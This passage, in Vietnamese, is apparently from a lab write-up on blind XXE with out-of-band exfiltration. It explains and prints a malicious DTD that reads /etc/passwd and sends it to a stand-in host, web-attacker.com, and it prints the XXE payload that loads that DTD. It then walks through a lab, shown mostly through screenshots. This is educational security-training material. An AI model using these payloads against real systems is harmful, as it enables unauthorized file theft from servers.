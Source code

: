 Để thực hiện thì attacker cần: 
- Lưu trữ một DTD độc hại trên một máy chủ do attacker dựng lên. 
- Và sau đó gọi DTD đó từ xa bằng cách nhúng nó vào một payload XXE được gửi đến hệ thống mục tiêu. 

```XML 
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Cái DTD ở trên được giải thích như sau: 
- Định nghĩa 1 tham số thực thể XML là `file`, đường dẫn tới `/etc/passwd`. 
- Định nghĩa 1 tham số thực thể XML là `eval`, dùng để khai báo một tham số thực thể XML khác tên là `exfiltrate`. Thực thể `exfiltrate` này sẽ thực hiện 1 HTTP request tới web server của attacker có tham số `x` mang giá trị là nội dung của thực thể`file`. 
- Gọi `%eval;` để kích hoạt khai báo tham số thực thể `exfiltrate` bên trong nó. 
- Gọi `%exfiltrate;` để ép máy chủ thực hiện request ra ngoài, qua đó gây rò rỉ nội dung file `/etc/passwd`. 

Attacker phải host một file DTD độc hại, như sau: 
```URL 
http://web-attacker.com/malicious.dtd
``` 

Cuối cùng, attacker phải submit XXE payload trên mục tiêu như sau: 
```XML 
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
``` 
### LAB05 

Lab này cũng sử dụng XML trong phần check stock. 

![image](https://hackmd.io/_uploads/Syu5UQwPgg.png)

Mình sẽ thực hiện blind XXE qua out-of-band để lấy dữ liệu như sau: 

- Đầu tiên, mình sẽ viết 1 file DTD độc hại trên 1 server đã dựng sẵn như sau: 

![image](https://hackmd.io/_uploads/HJGcKQPDll.png)

Thì khi đó, file DTD sẽ được lưu như sau: 

![image](https://hackmd.io/_uploads/rkiOYmDwgx.png)

- Thứ hai, mình sẽ gọi tới link chứa file DTD trên mục tiêu như sau: 

![image](https://hackmd.io/_uploads/HJ-sYmDvxl.png)

Sau đó, mình xem log trả về trên web server như sau: 

![image](https://hackmd.io/_uploads/SkqTtXwvgx.png)

### Khai thác blind XXE để trích xuất data thông qua thông báo lỗi 
